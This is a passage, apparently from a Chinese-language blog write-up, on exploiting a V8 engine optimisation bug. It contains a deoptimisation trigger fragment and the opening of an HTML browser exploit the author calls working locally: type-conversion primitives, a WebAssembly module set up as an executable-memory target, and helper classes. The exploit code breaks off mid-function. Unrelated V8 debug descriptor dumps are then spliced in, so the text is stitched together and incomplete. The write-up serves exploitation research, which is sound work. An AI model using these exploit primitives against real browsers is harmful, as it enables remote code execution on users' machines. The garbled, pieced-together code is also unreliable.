 ```js
  sum+=trigger(_ => _);
  sum+=trigger(_ => _);
}
```

> 不知道是不是笔者本地独有的问题，对于只调用 0x10000 次并不会让 `trigger` 被足够多的降级优化，因此笔者这里反复调用了两次。
> 但是即便如此，在浏览器第一次解析该脚本时也不会触发优化，需要笔者主动刷新一次页面才会发生优化降级。

## 最终的利用与其他顾虑

最后贴一份只在我本地可用的利用吧：

```js
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>test</title>
<script>

var f64 = new Float64Array(1);
	var bigUint64 = new BigUint64Array(f64.buffer);
	var u32 = new Uint32Array(f64.buffer);

	function d2u(v) {
        f64[0] = v;
        return u32;
	}
	function u2d(lo, hi) {
        u32[0] = lo;
        u32[1] = hi;
        return f64[0];
	}
	function ftoi(f)
	{
	    f64[0] = f;
		return bigUint64[0];
	}
	function itof(i)
	{
		bigUint64[0] = i;
		return f64[0];
	}
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;

class Utils {
  static BigIntAsDouble(big_int) {
    Utils.#big_int_array[0] = big_int;
    return Utils.#double_array[0];
  }

  static DoubleAsBigInt(big_int) {
    Utils.#double_array[0] = big_int;
    return Utils.#big_int_array[0];
  }

  static CreateObject(prop_count) {
    let object = {};
```

  [0]: 0x93700002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 4, attrs: [WEC]) @ Any
  [1]: 0x93700002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 3, attrs: [WEC]) @ Any
  [2]: 0x93700002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 2, attrs: [WEC]) @ Any
  [3]: 0x93700002a51: [String] in ReadOnlySpace: #d (const data field 3:s, p: 1, attrs: [WEC]) @ Any
  [4]: 0x93700002a61: [String] in ReadOnlySpace: #e (const data field 4:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0xf6100002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (data field 2:d, p: 0, attrs: [WEC]) @ Any
  [0]: 0x123a00002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x123a00002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x123a00002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any